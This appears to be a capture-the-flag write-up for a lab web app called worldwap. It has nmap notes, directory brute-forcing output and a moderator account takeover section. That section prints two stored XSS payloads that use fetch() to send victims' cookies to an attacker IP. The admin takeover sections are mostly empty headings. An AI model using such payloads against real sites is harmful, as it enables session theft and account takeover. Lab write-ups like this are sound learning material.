 
## nmap scan
![](Pasted%20image%2020250208160826.png)

- 22 - ssh open
- 80 - cookie secure flag not set

Let s see what is on port 8081 
	![](Pasted%20image%2020250208161928.png)
	![](Pasted%20image%2020250208161957.png)

```shell
(root㉿kali)-[~]
└─# dirbuster -u http://worldwap.thm:8081 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
File found: /index.php - 200
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=ltqln2ktcei1me78r6069f4ntl; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=rcs2an6hlmgm0ph5uim4lvlvt8; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
File found: /login.php - 200
Dir found: /icons/ - 403
File found: /profile.php - 302
File found: /clear.php - 200
Dir found: /assets/ - 200
File found: /chat.php - 302
Dir found: /icons/small/ - 403
File found: /db.php - 200
Dir found: /javascript/ - 403
File found: /logout.php - 302
File found: /setup.php - 200
File found: /block.php - 200
```

Nothing interesting found therefore we will get back at the main app hosted on port 80

## moderator account takeover
### **XSS (cookie steal)**
Let s try to create an account
	![](Pasted%20image%2020250208185950.png)
When we try to log in with the just created account we get the following message: ''user not verified" which means that our account was not validated by an authorithy(in our case an account moderator)
	![](Pasted%20image%2020250208190119.png)
We can try to register another account but this time to inject an XSS payload that will steal the moderator cookie once he will open our registration:

```javascript
<img src="nbyte" onerror="fetch('http://10.10.117.68:8000/?cookie='+document.cookie)">
```
OR
```javascript
<img src="nbyte2" onerror="fetch('http://10.10.117.68:8000/?secret='+encodeURIComponent(document.cookie))">
```

![](Pasted%20image%2020250208191234.png)

Now let s try to steal the moderator session using his cookies:
	![](Pasted%20image%2020250208191350.png)
		![](Pasted%20image%2020250208191459.png)












## administrator account takeover
### CSRF


### File upload / Priv.esc
Let s do another enum on the main app to see if we can find other interesting directories
```shell   
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://worldwap.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://worldwap.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2025/02/08 17:27:27 Starting gobuster in directory enumeration mode
===============================================================
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
Progress: 219143 / 220561 (99.36%)===============================================================
2025/02/08 17:27:54 Finished
===============================================================
```

![](Pasted%20image%2020250208193017.png)
	